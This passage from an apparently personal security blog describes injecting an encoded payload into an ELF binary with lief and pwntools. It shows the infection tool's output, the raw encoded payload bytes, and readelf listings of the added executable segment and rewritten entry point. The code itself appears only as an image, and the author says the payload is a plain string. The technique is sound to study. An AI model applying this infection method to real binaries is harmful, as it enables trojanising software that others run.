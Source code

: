 
1. I have not included reverse shell, but a normal string
2. As I said, we need to parse the file with the help of lief library
3. I have used asm() from pwn to convert to byte 
4. We are storing our payloud to devilcode variable 
5. I encoded my payload (optional)
6. we need to push the entrypoint as byterarray to our devilcode thus adding 
7. print the size of devilcode

you can check this:  [lief](https://lief-project.github.io/doc/latest/api/python/elf.html)

segments must be included (runtime) 


### The output of the code

```
spyware@virus:~/malware-dev$ python3 ELf_inject.py -f test -o e
 [+] It has been infected
devilcode size :  110
payload, b'\xd9\xd0\xfc\xd9t$\xf4^\x83\xc6\x18\x89\xf7\xac\x93\xac(\xd8\xaa\x80\xeb\xacu\xf5U\xde\xb8\x8e\xe8P67VW\x1c\x1d\xc6\xc7f\xe7\xe9\x1d\x08,/\xa1\x1a%op\xab\xac"\x8a\x9e\x03\xf7ij\xd9a\xd6\xbe&\xa7\x0b\xb5\x16L\xba9\xa0?\xc8\xbc\x9d\'\x91\xde\xdf\xcf*\xc71\x03\x0c\x1fy\xa5\xe7\x1c\x86\xda\xde9\x91p=&\xa6\xacx\x89\xd6h`\x10\x00\x00\xc3'
 [+] Segment has been linked to the file
The orginal entrypoint:  0x2060
New entrypoint:  0xd000

```


Let me check the infected file:

```
  LOAD           0x0000000000003db8 0x0000000000004db8 0x0000000000004db8
                 0x0000000000000258 0x0000000000000260  RW     0x1000
  LOAD           0x0000000000005000 0x000000000000d000 0x000000000000d000
                 0x0000000000000070 0x0000000000000070    E    0x1234     <---- infected
  LOAD           0x0000000000006000 0x0000000000016000 0x0000000000016000
                 0x0000000000000080 0x0000000000000080  R      0x1000

	Machine:                           Advanced Micro Devices X86-64
  Version:                           0x1
  Entry point address:               0xd000   <----- changed
  Start of program headers:          64 (bytes into file)

```

#### Conclusion 

You can build more advanced features into your code. I just wanted to enhance my skills to show that its not so hard to think how such malwares have been created in the cyber world

If you have some doubts to understand this technique you can always ask to me.

Stay tuned for more blogs.

Check this article: [elf-static-injection-to-load-malicious-dynamic-link-library](https://violentbinary.github.io/posts/1-elf-static-injection-to-load-malicious-dynamic-link-library/)






